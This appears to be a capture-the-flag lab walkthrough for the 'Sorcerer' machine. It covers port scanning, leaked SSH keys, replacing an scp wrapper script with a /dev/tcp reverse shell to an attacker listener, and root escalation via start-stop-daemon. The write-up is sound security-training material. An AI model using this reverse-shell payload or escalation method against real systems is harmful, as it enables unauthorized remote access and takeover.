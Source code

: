 #### Enumeration

##### Nmap 

```
nmap -Pn -p- -sC -sV 192.168.206.100 -T4 -oN Sorcerer.nmap
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h04m29s_001_.png)

The website on 80 port only displays text messages, checking the code to confirm that it is only plain text.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h36m59s_009_.png)

No special directory was found during the scan.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h21m34s_002_.png)

The attempt to log in with common credentials failed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h19m21s_003_.png)

Checking the code looks like the page is no actual login function.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h26m45s_006_.png)

If there is no actual login function, there may be hidden directories. The directory scan shows two directories zipfiles and default.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h31m18s_007_.png)

There are four compressed files in the zipfiles directory.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h51m19s_010_.png)

The default directory is the same as the website on port 80. It only displays text messages.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_20h55m00s_011_.png)

Find ssh folder in max.zip. When trying to login with private key, it is found that ssh login has been forbidden. Only scp can be used.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_23h58m36s_014_.png)

Try to use `scp` to upload and download website directories, but there is nothing special found, and PHP should not be able to use.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_00h01m13s_015_.png)

Reexamine scp_wrapper.sh in max.zip. After searching, I know that scp_wrapper.sh is used to set a program that does not allow ssh login. We can change scp_wrapper.sh to get the reverse shell.

scp_wrapper.sh: [setting reference](https://serverfault.com/questions/83856/allow-scp-but-not-actual-login-using-ssh) 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.26_23h56m06s_013_.png)

Modify the source code of scp_wrapper.sh.

```
#!/bin/bash
/bin/bash -l > /dev/tcp/<LHOST>/<LPORT> 0<&1 2>&1
```
Then use the scp command to upload wrapper.sh with reverse shell content.

```
scp -i ~/Downloads/id_rsa ~/Documents/OffSecPG/Sorcerer/scp_wrapper.sh max@<RHOST>:/home/max
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_00h42m14s_016_.png)

Monitor port 80 to execute ssh login.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_00h46m13s_017_.png)

Get the reverse shell connection and local.txt successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_00h48m49s_019_.png)

#### Privilege Escalation

The linpeas.sh find that /usr/sbin/start-stop-daemon is run by root.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_01h16m54s_020_.png)

Find instructions in [GTFOBins](https://gtfobins.github.io/) to elevate permissions.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_15h59m02s_001_.png)

```
/usr/sbin/start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Sorcerer/Sorcerer_2021.06.27_01h26m46s_022_.png)
